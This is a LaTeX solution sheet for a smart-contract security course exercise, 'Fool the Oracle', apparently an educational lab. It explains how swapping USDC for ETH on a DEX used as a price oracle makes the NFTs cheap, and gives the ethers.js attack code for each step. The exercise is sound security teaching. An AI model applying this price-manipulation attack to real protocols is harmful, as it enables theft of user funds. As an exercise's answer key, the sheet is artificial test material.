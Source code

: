 \documentclass[12pt]{article}
\title{Smart Contracts Exercise 06: \\ Fool the Oracle --- Solution}
\author{}
\date{}
\begin{document}
\maketitle

\noindent
The solution for Exercise 06: Fool the Oracle can be found in this \href{https://github.com/radovluk/Smart-Contract-Exercise/tree/main/06-Fool-the-Oracle/solution/solution-code}{GitHub repository}.

\section*{Solution to Task 1: Fool the Oracle 01}

The solution to Task 1 leverages price manipulation in SimpleDEX, which is being used as a price oracle by the NFT marketplace. By exploiting the price impact mechanics of an AMM, we can change the exchange rate between ETH and USDC to make the NFTs much cheaper in ETH terms. The key steps of the solution are:

\begin{enumerate}
\item First, we approve the DEX to spend our USDC tokens:
\begin{verbatim}
await usdcToken.connect(player).approve(simpleDEX.target, PLAYER_INITIAL_USDC);
\end{verbatim}
\item Then, we swap all our USDC (3,000) for ETH, which drastically changes the composition of the liquidity pool. This manipulation causes the price of ETH (in USDC terms) to increase significantly:
\begin{verbatim}
await simpleDEX.connect(player).usdcToEth(PLAYER_INITIAL_USDC);
\end{verbatim}

\item Finally, we purchase all three NFTs at the artificially low ETH prices:
\begin{verbatim}
for (let i = 1; i <= NFT_COUNT; i++) {
    const ethPrice = await nftMarketplace.getCurrentPriceForNFT(i);
    console.log(`Purchasing NFT #${i} for ${ethers.formatEther(ethPrice)} ETH`);
    await nftMarketplace.connect(player).buyNFT(i, { value: ethPrice });
}
\end{verbatim}
\end{enumerate}
This attack exploits the fact that the NFT marketplace blindly trusts the DEX as its price oracle without considering that prices can be manipulated through normal trading activities.
\end{document}
